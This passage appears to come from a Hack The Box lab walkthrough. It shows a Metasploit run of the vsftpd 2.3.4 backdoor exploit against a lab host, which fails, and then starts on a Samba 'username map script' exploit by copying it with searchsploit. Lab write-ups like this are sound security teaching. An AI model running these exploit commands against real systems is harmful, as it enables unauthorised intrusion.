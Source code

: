 

Set the payload to `cmd/unix/interact` and run:



    msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set payload cmd/unix/interact 
    payload => cmd/unix/interact
    msf5 exploit(unix/ftp/vsftpd_234_backdoor) > options

    Module options (exploit/unix/ftp/vsftpd_234_backdoor):

       Name    Current Setting  Required  Description
       ----    ---------------  --------  -----------
       RHOSTS  10.10.10.3       yes       The target address range or CIDR identifier
       RPORT   21               yes       The target port (TCP)


    Payload options (cmd/unix/interact):

       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------


    Exploit target:

       Id  Name
       --  ----
       0   Automatic


    msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

    [*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
    [*] 10.10.10.3:21 - USER: 331 Please specify the password.
    [*] Exploit completed, but no session was created.



It still fails.

I'll explore why this fails in [Beyond Root](#beyond-root---vsftpd).

## SAMBA Exploit

### Completely Manually

#### Script Analysis

To understand what's going on, I'll grab the source for the exploit:



    root@kali# searchsploit -m exploits/unix/remote/16320.rb
      Exploit: Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
          URL: https://www.exploit-db.com/exploits/16320
         Path: /usr/share/exploitdb/exploits/unix/remote/16320.rb
    File Type: Ruby script, ASCII text, with CRLF line terminators

    Copied to: /root/hackthebox/forwardslash-10.10.10.183/16320.rb

